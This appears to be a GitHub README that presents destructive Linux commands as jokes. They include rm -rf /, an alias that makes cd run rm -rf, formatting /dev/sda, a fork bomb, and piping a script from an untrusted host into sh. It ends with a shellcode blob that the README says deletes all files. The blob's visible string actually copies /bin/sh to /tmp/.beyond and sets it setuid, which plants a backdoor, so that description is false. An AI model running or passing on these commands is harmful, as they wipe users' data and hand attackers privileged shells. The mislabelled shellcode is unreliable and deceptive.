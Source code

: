 # Hello-Linux
_Say Your Final Words_

## Some Atom Bombs for Linux

```
sudo rm -rf /
sudo umount /
```

This command will delete your entire files on mounted devices!

```
echo "alias cd='rm - rf /'" >> ~/.bash_aliases
```
This command will set alias cd as rm -rf in every new terminal instance.

```
mkfs.ext3 /dev/sda
```
This command will format your /dev/sda device and ofcourse will delete all files on it.

```
:(){:|:&};:
```
This command will run too many processes on your system and causes the computer hang up!

```
wget http://sumber_tak_terpercaya -O- | sh
```
This command will download a shell script from untrusted source and run it when the download finished

```
mv ~/* /dev/null
```
This will move home directory to a place that actually doesn't exist. In other words, it will delete your home directory


```
char esp[] __attribute__ ((section(".text"))) /* e.s.p
release */
= "\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68"
"\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99"
"\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7"
"\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56"
"\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31"
"\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69"
"\x6e\x2f\x73\x68\x00\x2d\x63\x00"
"cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;";
```
Hexadecimal code! Same as the first command, it will delete entire files on your mounted devices



### Happy-Hacking
